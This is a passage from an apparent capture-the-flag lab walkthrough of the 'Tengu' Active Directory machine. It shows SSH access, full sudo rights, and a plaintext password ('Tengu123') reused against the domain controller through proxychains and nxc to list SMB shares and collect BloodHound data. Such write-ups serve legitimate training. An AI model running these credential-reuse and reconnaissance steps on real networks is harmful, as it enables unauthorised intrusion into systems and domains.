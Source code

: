 its actually work for ssh user is t2_m.winters

    ➜  Tengu ssh tengu.vl\\t2_m.winters@10.10.158.55
    (tengu.vl\t2_m.winters@10.10.158.55) Password: 
    t2_m.winters@tengu.vl@nodered:~$ sudo -l
    [sudo] password for t2_m.winters@tengu.vl: 

    Sorry, try again.
    [sudo] password for t2_m.winters@tengu.vl: 
    Sorry, try again.
    [sudo] password for t2_m.winters@tengu.vl: 
    Matching Defaults entries for t2_m.winters@tengu.vl on nodered:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

    User t2_m.winters@tengu.vl may run the following commands on nodered:
        (ALL : ALL) ALL
    t2_m.winters@tengu.

i think those creds can use on other hosts

t2_m.winters : Tengu123

and its work

    ➜  Tengu proxychains -q nxc smb DC -u "t2_m.winters" -p "Tengu123" --shares
    SMB         10.10.158.53    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
    SMB         10.10.158.53    445    DC               [+] tengu.vl\t2_m.winters:Tengu123 
    SMB         10.10.158.53    445    DC               [*] Enumerated shares
    SMB         10.10.158.53    445    DC               Share           Permissions     Remark
    SMB         10.10.158.53    445    DC               -----           -----------     ------
    SMB         10.10.158.53    445    DC               ADMIN$                          Remote Admin
    SMB         10.10.158.53    445    DC               C$                              Default share
    SMB         10.10.158.53    445    DC               IPC$            READ            Remote IPC
    SMB         10.10.158.53    445    DC               NETLOGON        READ            Logon server share 
    SMB         10.10.158.53    445    DC               SYSVOL          READ            Logon server share 

but there is nothing interesting at shares lets check if we can dump bloodhound data

and yeah its possbile

    ➜  bloodhound proxychains -q nxc ldap DC.tengu.vl -u "t2_m.winters" -p "Tengu123" --bloodhound --dns-server 10.10.158.53 --collection All
    SMB         10.10.158.53    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
    LDAP        10.10.158.53    389    DC               [+] tengu.vl\t2_m.winters:Tengu123 
    LDAP        10.10.158.53    389    DC               Resolved collection methods: localadmin, dcom, session, trusts, container, psremote, rdp, objectprops, acl, group
    LDAP        10.10.158.53    389    DC               Done in 00M 23S
    LDAP        10.10.158.53    389    DC               Compressing output into /root/.nxc/logs/DC_10.10.158.53_2025-02-04_175121_bloodhound.zip

### ReadGMSAPassword
